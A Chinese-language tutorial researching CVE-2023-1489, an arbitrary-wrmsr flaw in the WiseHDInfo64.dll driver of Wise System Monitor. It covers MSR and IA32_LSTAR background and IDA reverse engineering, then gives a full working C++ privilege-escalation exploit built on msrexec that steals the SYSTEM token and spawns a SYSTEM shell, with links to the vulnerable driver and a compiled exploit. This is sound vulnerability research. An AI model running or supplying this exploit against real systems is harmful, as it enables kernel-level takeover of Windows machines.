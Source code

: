 # 【第 19 話】CVE-2023-1489 研究－任意 wrmsr 到任意執行

## 文章大綱
這篇要介紹 wrmsr 這個在驅動程式中使用的指令，然後透過 CVE-2023-1489 說明如果一個驅動程式讓低權限的 Process 任意使用 wrmsr 會讓攻擊者可以任意執行，最後利用漏洞配合 msrexec 專案達成提權。


## MSR
MSR 是 CPU 的一組 64 位元暫存器，用於存儲處理器或系統的特定配置和性能信息。這些 MSR 可以用來控制 CPU 的行為，監視性能，並提供有關 CPU 狀態的資訊。

在 Windows 驅動程式中要讀取 MSR 的某個 `Register` 的值是用 [__readmsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/readmsr?view=msvc-170)。

```c
__int64 __readmsr(
   int register
);
```

寫入 MSR 則是用 [__writemsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/writemsr?view=msvc-170) 將值寫入 `Register`。

```c
void __writemsr(
   unsigned long Register,
   unsigned __int64 Value
);
```

這篇會將重點放在 `IA32_LSTAR`（0xC0000082）這個 `Register`，`IA32_LSTAR` 中存放 `KiSystemCall64` 的函數位址，在系統呼叫 System Call 時會把 `IA32_LSTAR` 的值給 RIP。

在 WinDbg 輸入指令 [rdmsr](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/rdmsr--read-msr-)、[wrmsr](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/wrmsr--write-msr-) 可以讀寫 MSR 的值，讀取 0xC0000082 得到一個函數位址。然後輸入指令 `u` 反組譯這個位址就可以得到  `KiSystemCall64`，其中 [u](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/debugger/u--unassemble-) 代表 Unassemble。

```
kd> rdmsr 0xC0000082
msr[c0000082] = fffff803`e4370980

kd> u fffff803`e4370980
nt!KiSystemCall64:
fffff803`e4370980 0f01f8          swapgs
fffff803`e4370983 654889242510000000 mov   qword ptr gs:[10h],rsp
fffff803`e437098c 65488b2425a8010000 mov   rsp,qword ptr gs:[1A8h]
fffff803`e4370995 6a2b            push    2Bh
fffff803`e4370997 65ff342510000000 push    qword ptr gs:[10h]
fffff803`e437099f 4153            push    r11
fffff803`e43709a1 6a33            push    33h
fffff803`e43709a3 51              push    rcx
```


## 介紹 CVE-2023-1489
看看 [CVE-2023-1489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1489) 在 MITRE 的描述。

A vulnerability has been found in Lespeed WiseCleaner Wise System Monitor 1.5.3.54 and classified as critical. Affected by this vulnerability is the function 0x9C402088 in the library WiseHDInfo64.dll of the component IoControlCode Handler. The manipulation leads to improper access controls. The attack needs to be approached locally. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-223375.

直接用列點的方式抓重點。
- 軟體：Lespeed WiseCleaner Wise System Monitor 1.5.3.54
- 元件：WiseHDInfo64.dll
- 漏洞位置：IOCTL Handler
- 影響：Improper Access Controls

從我的 GitHub 下載 [WiseHDInfo64.dll](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1489/bin/WiseHDInfo64.dll)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 WiseHDInfo64.dll 的數位簽章資訊，是 2017 年 7 月 3 日的簽章。要注意的是，雖然檔案副檔名是 dll，但它實際上是個驅動程式。

![](signature.png)


## 逆向分析
開啟 IDA 分析 `DriverEntry`，可以找到 IOCTL Handler 和 Symbolic Link Name `WiseHDInfo`。

![](DriverEntry.png)

跟進去分析 IOCTL Handler，在 IoControlCode 0x9C402088 程式呼叫了一個函數，我將它取名為 `ArbitraryWriteMsr`。

![](IoControlCode.png)

再跟進 `ArbitraryWriteMsr`，就來到漏洞的地方，攻擊者可以任意使用 `__writemsr`，因為它的參數可控。

![](wrmsr.png)


## 攻擊腳本
現在我們可以從應用層透過漏洞任意 wrmsr，接下來我們要搭配 [_xeroxz/msrexec](https://git.back.engineering/_xeroxz/msrexec) 專案達到提權。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1489)。

### msrexec 原理
整個 msrexec 的專案的細節很多，這篇會比較多注重在如何應用，這裡簡單說明原理。

1. 從 ntoskrnl.exe 找繞過 SMEP、SMAP 等保護機制的 ROP Gadget 和一些需要用的 Kernel API 位址
2. 利用任意 wrmsr 漏洞改 `IA32_LSTAR` 成 ROP Gadget
3. 在 Kernel 執行存在應用層的任意程式
4. 處理 System Call 與回復原本系統狀態

### 寫程式
程式主要是改 msrexec 的，我改了裡面觸發任意 wrmsr 的部分，換成利用 WiseHDInfo64.dll 的漏洞，並且寫提權的邏輯，然後加上一些註解。

流程分成三個步驟
1. 實作任意使用 wrmsr 的函數
    - 取得 Device Handle
    - 設定 InputBuffer 後觸發 wrmsr 漏洞
2. 實作要在 Kernel 執行的任意程式
    - 從 ntoskrnl.exe 找到需要的函數位址
    - 竄改 EPROCESS Token
3. 彈出有 system 權限的 cmd

```c
#include "msrexec.hpp"
#include <iostream>

using ExAllocatePool_t = void* (*)(std::uint32_t, std::size_t);
using PsLookupProcessByProcessId_t = NTSTATUS (*)(HANDLE, PVOID*);

int __cdecl main(int argc, char** argv)
{
    // 1. 實作任意使用 wrmsr 的函數
    writemsr_t _write_msr = [&](std::uint32_t reg, std::uintptr_t value) -> bool
    {
        struct DATA_9C402088
        {
            unsigned long Register;
            unsigned long Value_low;
            unsigned long Value_high;
        };

        // 取得 Device Handle
        HANDLE hDevice =
            CreateFile(L"\\\\.\\WiseHDInfo", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);

        // 設定 InputBuffer 後觸發 wrmsr 漏洞
        DWORD dwWrite;
        DATA_9C402088 data;
        data.Register = reg;
        data.Value_low = value & 0xffffffff;
        data.Value_high = (value >> 32) & 0xffffffff;
        DeviceIoControl(hDevice, 0x9C402088, &data, sizeof(data), NULL, 0, &dwWrite, NULL);

        return true;
    };
    vdm::msrexec_ctx msrexec(_write_msr);

    // 2. 實作要在 Kernel 執行的任意程式
    DWORD pid = GetCurrentProcessId();
    msrexec.exec(
        [pid](void* krnl_base, get_system_routine_t get_kroutine) -> void
        {
            // 因為是在程式是放在應用層，所以無法直接呼叫 Kernel API，要先從 ntoskrnl.exe 找到需要的函數位址
            const auto ExAllocatePool = reinterpret_cast<ExAllocatePool_t>(get_kroutine(krnl_base, "ExAllocatePool"));
            const auto PsLookupProcessByProcessId =
                reinterpret_cast<PsLookupProcessByProcessId_t>(get_kroutine(krnl_base, "PsLookupProcessByProcessId"));

            // 把當前 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
            PVOID* ppEprocess = (PVOID*)ExAllocatePool(NULL, 0x8);
            PsLookupProcessByProcessId((HANDLE)4, ppEprocess);
            DWORD64 systemToken = *(DWORD64*)(*(DWORD64*)ppEprocess + 0x358) & 0xfffffffffffffff0;
            PsLookupProcessByProcessId((HANDLE)pid, ppEprocess);
            *(DWORD64*)(*(DWORD64*)ppEprocess + 0x358) = systemToken;
        });

    // 3. 彈出有 system 權限的 cmd
    system("cmd");
}
```


## 測試
開啟 VM 載入 [WiseHDInfo64.dll](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1489/bin/WiseHDInfo64.dll)，接著執行 [CVE-2023-1489.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1489/bin/CVE-2023-1489.exe)，之後就會跳出 system 權限的 cmd。

![](whoami.png)


## 參考資料
- [CVE-2023-1489 MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1489)
- [zeze-zeze/WindowsKernelVuln CVE-2023-1489](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1489)
- [_xeroxz/msrexec](https://git.back.engineering/_xeroxz/msrexec)
- [AMD rdmsr wrmsr 指令](https://www.cnblogs.com/yanli0302/p/11642570.html)
- [__readmsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/readmsr?view=msvc-170)
- [__writemsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/writemsr?view=msvc-170)
- [ITS OKAY TO BE OLD DRIVER](https://s.itho.me/ccms_slides/2021/5/13/26d82ee0-5685-472e-9c4b-453ed6c2d858.pdf)